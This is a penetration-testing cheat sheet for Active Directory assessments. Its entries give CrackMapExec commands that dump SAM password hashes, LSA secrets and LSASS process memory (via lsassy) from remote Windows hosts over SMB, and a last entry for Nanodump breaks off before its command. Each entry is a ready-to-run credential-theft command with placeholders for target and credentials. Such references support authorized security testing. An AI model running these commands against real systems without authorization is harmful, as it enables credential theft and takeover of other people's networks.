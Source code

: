 ## Dump SAM
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump SAM hashes using methods from secretsdump.py

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> --sam
```

## Dump LSA
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump LSA secrets.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> --lsa
```

## Dump LSA (old method)
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump LSA secrets using methods from secretsdump.py

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> --lsa secdump
```

## Dump LSASS
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump secrets from the LSASS process memory using methods from LSASSY.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M lsassy
```

## Dump LSASS (Nanodump)
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump secrets from the LSASS process memory using methods from Nanodump.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)
